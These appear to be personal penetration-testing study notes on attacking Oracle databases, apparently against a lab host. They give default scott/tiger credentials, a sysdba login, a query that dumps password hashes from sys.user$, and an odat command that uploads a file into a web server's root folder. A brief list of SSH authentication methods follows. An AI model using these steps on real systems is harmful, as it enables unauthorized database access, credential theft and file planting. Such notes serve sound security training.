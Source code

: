 username->scott
password->tiger
SID->XE

[Error Debug ](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared)


#### Commands

 [SQLplus commands](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985)
- list tables
```shell-session
select table_name from all_tables;
```
- list user priv
```shell-session
 select * from user_role_privs;
```

- login as system db admin
```shell-session
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
- Extract password hashes
```shell-session
select name, password from sys.user$;
```
- Default path of Server files

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

- upload files to server db
```shell-session
odat utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```



# Linux Remote Management protocols
# ==SSH==

- Authentication Methods [SEE HERE](https://www.golinuxcloud.com/openssh-authentication-methods-sshd-config/)
```
1. Password authentication
2. Public-key authentication
3. Host-based authentication
4. Keyboard authentication
5. Challenge-response authentication
6. GSSAPI authentication
```
